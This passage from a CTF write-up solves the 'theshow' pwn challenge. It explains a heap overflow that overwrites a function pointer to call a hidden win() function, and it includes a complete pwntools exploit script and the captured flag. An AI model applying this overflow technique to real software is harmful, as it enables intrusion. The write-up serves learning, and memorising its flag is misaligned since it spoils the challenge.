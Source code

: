 Once we understood the behavior of the program it's easy to spot the vulnerability: through a heap overflow (possible since we choose desc_length) we can overwrite the pointer in main act and execute every function we want. At this point I naively thought: "It would be perfect if we had a function like _printFlag_ or _popShell_". While I was absorbed in thoughts I realized that maybe the big amount of functions of the binary, previously mentioned, was used to hide such a "magic" function. It turned out that I was correct and with a brief search I found the _win()_ function that print the flag. The rest of the exploit simply consist in gdb checks in order to find offsets for the overflow.

Script:

{:.linenumber}
```python:solve.py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./theshow")

context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
    elif args.GDB:
        r = gdb.debug([exe.path], gdbscript='''b main''')
    else:
        r = remote("0.cloud.chals.io", 30138)
    return r

def main():
    r = conn()
    r.sendlineafter(b'act?\n', b'born2scan')
    r.sendlineafter(b'be?\n', b'120')
    # heap overflow
    r.sendlineafter(b'us:\n', b'a' * 240 + p64(exe.sym.win))
    r.sendlineafter(b'Action: ', b'1')
    print(r.recvline().decode())

if __name__ == "__main__":
    main()
```

🏁 _UMDCTF{b1ns_cAN_B3_5up3r_f4st}_{: .spoiler}

---

# Rev

## DragonPit

> _Fred is trying to learn how to deal with dragons. Can you help him out?_<br>
> _Attachments: dragonPit_

